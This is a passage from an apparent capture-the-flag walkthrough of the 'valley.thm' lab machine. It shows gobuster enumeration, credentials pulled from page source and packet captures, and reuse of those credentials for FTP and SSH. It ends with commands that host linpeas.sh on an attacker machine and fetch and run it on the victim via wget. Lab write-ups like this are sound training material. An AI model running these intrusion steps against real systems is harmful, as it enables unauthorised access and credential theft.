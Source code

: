 * The directory '/dev1243224123123' leads us to a login page - we can enumerate this directory as well:

  ```sh
  gobuster dir -u http://valley.thm/dev1243224123123 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,php,html,bak -t 25
  ```

* Checking the source code for this login page, we can see a script '/dev.js' - this gives us the functionality of the login page:

  * valid username is less than 5 characters in length
  * valid password is less than 7 characters in length
  * there is a credential pair "siemDev:california", which when entered would lead to "/dev1243224123123/devNotes37370.txt"

* Navigating to "/dev1243224123123/devNotes37370.txt" mentions credential reuse for ```ftp```. We can try the above creds:

  ```sh
  ftp valley.thm 37370
  # using creds siemDev:california

  # we are able to login
  ls
  # we have a few packet captures

  mget *
  # fetch all 3 .pcapng files
  ```

* We have fetched 3 packet captures - ```siemFTP.pcapng```, ```siemHTTP1.pcapng```, and ```siemHTTP2.pcapng``` - we can check this using ```wireshark```

* For the FTP capture, we can follow the TCP stream. This shows creds 'anonymous:anonymous' works, but no files seen. These credentials don't work for ```ftp``` currently

* For the first HTTP capture, we can use the method of filtering by ```http``` and following HTTP/TCP stream - this capture contains a test to few sample websites, nothing of much use. We can alternatively navigate to Analyze > Follow > TCP Stream

* For the second HTTP capture, if we filter by HTTP capture and follow one of the HTTP streams, we can see a POST request to a page with credentials "valleyDev:ph0t0s1234"

* We can try using these creds for the login page at "/dev1243224123123", but it does not work

* Since password reuse was mentioned earlier, we can try the above credentials with SSH as well:

  ```sh
  ssh valleyDev@valley.thm
  # it works

  id
  # valleyDev

  cat user.txt
  # get user flag

  # for enumeration, we can use linpeas.sh

  # in attacker machine, host server
  python3 -m http.server 8000

  # in victim ssh
  wget http://10.10.87.119:8000/linpeas.sh

  chmod +x linpeas.sh

  ./linpeas.sh
  ```
